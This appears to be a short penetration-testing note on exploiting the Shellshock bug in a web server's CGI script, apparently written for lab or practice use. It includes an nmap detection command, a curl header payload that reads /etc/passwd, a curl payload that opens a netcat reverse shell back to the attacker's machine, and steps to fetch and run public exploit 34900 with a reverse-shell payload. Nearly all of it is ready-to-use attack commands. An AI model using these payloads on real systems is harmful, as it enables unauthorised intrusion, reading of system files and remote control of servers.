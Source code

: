 https://www.sevenlayers.com/index.php/125-exploiting-shellshock

Nikto:

![[Pasted image 20220615122716.png]]

`/cgi-bin/admin.cgi`

Check with nmap:
```bash - kali
nmap $TARGET -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi
```

exploit with curl:
```bash - kali
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" http://$TARGET/cgi-bin/admin.cgi
```

```bash - kali
curl -H "user-agent: () { :; }; echo; echo; /bin/nc -e /bin/bash $KALI 443" http://$TARGET/cgi-bin/admin.cgi
```

Or use

exploit 34900.py

```bash - kali
searchsploit -m 34900
```

May need to manually edit exploit to include cgi-bin target:

![[Pasted image 20220615123539.png]]

```bash - kali
python 34900.py payload=reverse rhost=$TARGET lhost=$KALI lport=444
```
